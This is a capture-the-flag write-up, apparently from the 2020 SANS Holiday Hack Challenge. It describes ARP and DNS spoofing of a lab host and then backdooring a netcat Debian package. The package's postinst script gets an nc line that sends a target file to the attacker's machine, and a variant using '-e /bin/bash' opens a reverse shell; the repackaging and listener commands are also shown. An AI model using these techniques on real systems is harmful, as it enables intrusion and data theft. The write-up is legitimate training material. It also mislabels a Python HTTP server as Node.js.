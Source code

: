 # Objective 9: ARP Shenanigans
Location: NetWars

The objective is to get hold of the file `/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt` on a remote host using ARP  and DNS spoofing.

Exercise setup:
||Local Host|Remote Host  |Spoofed Host|
|--|--|--|--|
|MAC|02:42:0a:06:00:02  | 4c:24:57ab:ed:84 ||
|IP| 10.6.0.2 | 10.6.6.35 |10.6.6.53|

A [Python Scapy script](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-9/arp_resp-py) was prepared to spoof ARP replies for the spoofed host redirecting the traffic to the local host.

Capture of ARP spoofing success with following DNS query:

```
15:57:16.006467 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
15:57:47.028750 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:02, length 28
15:57:47.057274 IP 10.6.6.35.27609 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)`
```
Next a [Python Scapy script](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-9/dns_resp.py) was prepared to capture DNS requests to the spoofed host and to send replies redirecting traffic to ftp.osuosl.org to the local host.

Capture of ARP and DNS spoofing with following HTTP request:
```
17:27:16.968588 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
17:27:16.992764 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:02, length 28
17:27:17.009009 IP 10.6.6.35.16498 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)
17:27:17.029673 IP 10.6.6.53.53 > 10.6.6.35.16498: 0*- 1/0/0 A 10.6.0.2 (62)
17:27:18.098422 IP 10.6.6.35.50340 > 10.6.0.2.80: Flags [S], seq 2451495177, win 64240, options [mss 1460,sackOK,TS val 2516141758 ecr 0,nop,wscale 7], length 0
17:27:18.098452 IP 10.6.0.2.80 > 10.6.6.35.50340: Flags [R.], seq 0, ack 2451495178, win 0, length 0
```
A Node.js HTTP server was started using  `python3 -m http.server 80` and it logged the request:

    10.6.6.35 - - [12/Dec/2020 17:37:02] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -

On the device the Debian package `netcat-traditional_1.10-41.1ubuntu1_amd64.deb` was found.
This package was modified to include this line in the postinst script:
`/bin/nc 10.6.0.2 4444 < /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`

By opting for 
`/bin/nc 10.6.0.2 4444 -e /bin/bash`
an interactive reverse shell can be acquired.
```
guest@faf32a4d4929:~/debs$ mkdir tmp
guest@faf32a4d4929:~/debs$ dpkg-deb -R netcat-traditional_1.10-41.1ubuntu1_amd64.deb tmp
guest@faf32a4d4929:~/debs$ vi tmp/DEBIAN/postinst 
guest@faf32a4d4929:~/debs$ dpkg-deb -b tmp suriv_amd64.deb
dpkg-deb: building package 'netcat-traditional' in 'suriv_amd64.deb'.
```

and then made available in the web tree folder as `pub/jfrost/backdoor/suriv_amd64.deb`.
That way the remote device would download this package and install it. In course of the installation, the file in scope would be sent to port 4444 of the local host, which has to run the command

    nc -lvp 4444 > text
to receive the [text](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-9/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt) (resp. receive the reverse shell connection).
In this file it can be found that **Tanta Kringle** recused herself from the vote.
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTI3MjY1NjQxOSw4NTgxODg5MjksMTA5Mj
c4NTMyMSwtMjA2MjY3NTI5NywtNjEyODk3Nzk5LC04NTI3MjI3
MDMsMTc1ODI0MzY3NywxNjM0Mzk0OTQxLDEyMDQ0MjY1MzksLT
E3OTg0MTU4OTYsLTg3ODM5MjIxNiw1MTQyMDkxNTldfQ==
-->
